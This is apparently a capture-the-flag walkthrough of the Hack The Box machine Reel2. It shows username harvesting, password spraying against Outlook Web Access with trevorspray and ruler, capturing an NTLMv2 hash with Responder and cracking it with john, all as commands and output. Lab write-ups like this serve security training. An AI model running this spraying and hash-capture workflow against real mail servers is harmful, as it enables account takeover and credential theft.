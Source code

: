 ### Build raw user list
##### written by AI
```javascript
http://10.129.220.109:8080/search?q=

const userFollowBoxes = document.querySelectorAll("table.user_follow_box");

const res = Array.from(userFollowBoxes)
  .filter(userblock => userblock.textContent.includes('@')) // Filter out userblocks without '@'
  .map(userblock => {
    const content = userblock.textContent.replace('@', '').trim();
    const endIndex = content.indexOf('\n');
    return endIndex !== -1 ? content.substring(0, endIndex) : content;
  });

console.log(res.join('\n'));
```

### Build proper userlist

```bash
git clone git@github.com:A1vinSmith/username-anarchy.git

./username-anarchy/username-anarchy --input-file raw_users --select-format f.last >> userlist
./username-anarchy/username-anarchy --input-file raw_users --select-format first.last >> userlist
./username-anarchy/username-anarchy --input-file raw_users --select-format l.first >> userlist

```

### OWA password spray
The first Reel was about Phishing, and there’s already OWA here, so that seems like a likely path.
```bash
feroxbuster -u http://10.129.220.109 --wordlist=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt

403      GET       29l       92w     1233c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        0l        0w        0c http://10.129.220.109/owa => http://10.129.220.109/owa/
```

```bash
trevorspray -m owa -u userlist -p Summer2020  --url https://10.129.220.109/owa
[INFO] Command: /home/kali/.local/bin/trevorspray -m owa -u userlist -p Summer2020 --url https://10.129.220.109/owa
[INFO] Spraying 78 users * 1 passwords against https://10.129.220.109/owa at Tue May  9 12:40:31 2023
[WARN] NOTE: OWA typically uses the INTERNAL username format! Often this is different than the email format.
[WARN] This means your --usernames file should probably contain INTERNAL usernames
[WARN] Depending on the OWA instance, the usernames may also need the domain like so: "CORP.LOCAL\USERNAME"
[WARN] You can discover the OWA's internal domain with --recon
[WARN] If this isn't what you want, consider spraying with the "msol" or "adfs" module instead.
[INFO] Using OWA URL: https://10.129.220.109/owa
[SUCC] Found internal domain via NTLM: "htb.local"
[SUCC] 
{
    "NetBIOS_Domain_Name": "HTB",
    "NetBIOS_Computer_Name": "REEL2",
    "DNS_Domain_name": "htb.local",
    "FQDN": "Reel2.htb.local",
    "DNS_Tree_Name": "htb.local"
}
```

Add the domain as prefix to user list and spray again
```bash
# written by AI
#!/bin/bash

# Read the username list text file and add "htb.local\" prefix to each line
while IFS= read -r username; do
	username=$(echo "${username}" | tr -d '\n\r\t ')  # Remove new lines, carriage returns, tabs, and spaces
	if [[ -n "${username}" ]]; then
	    modified_username="HTB.local\\${username}"
	    printf "%s\n" "${modified_username}" >> domain-userlist
	fi
done < userlist
```

```bash
trevorspray -m owa -u domain-userlist -p Summer2020 --url https://10.129.220.109/owa
```

Above should work but it doesn't.

Ruler worked after couple times attempt
```bash
/opt/ruler-linux64 --domain reel2.htb.local -k brute --users userlist --passwords passwords.txt --delay 0 --verbose
[+] Starting bruteforce
[+] Trying to Autodiscover domain
[+] 0 of 2 passwords checked
[x] Failed: g.quimbly:Summer2020
ERROR: 16:43:55 brute.go:193: An error occured in connection - Get "https://reel2.htb.local/autodiscover/autodiscover.xml": Get "https://reel2.htb.local/autodiscover/autodiscover.xml": net/http: request canceled
[x] Failed: j.moore:Summer2020
[x] Failed: t.trump:Summer2020
[x] Failed: c.cube:Summer2020
[+] Success: 
```

* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying#outlook-web-access
* https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/
* https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login/
* https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials
* https://github.com/dafthack/DomainPasswordSpray
* https://github.com/dafthack/MailSniper

### OWA logged in
`htb.local\s.svensson:Summer2020`
Set up responder to phish


```bash
sudo responder -I tun0

john svensson-hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
kittycat1        (k.svensson)     
1g 0:00:00:00 DONE 2/3 (2023-05-09 17:15) 16.66g/s 561516p/s 561516c/s 561516C/s maryjane1..pepper1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 

hashcat -m 5600 svensson-hash /usr/share/wordlists/rockyou.txt
```
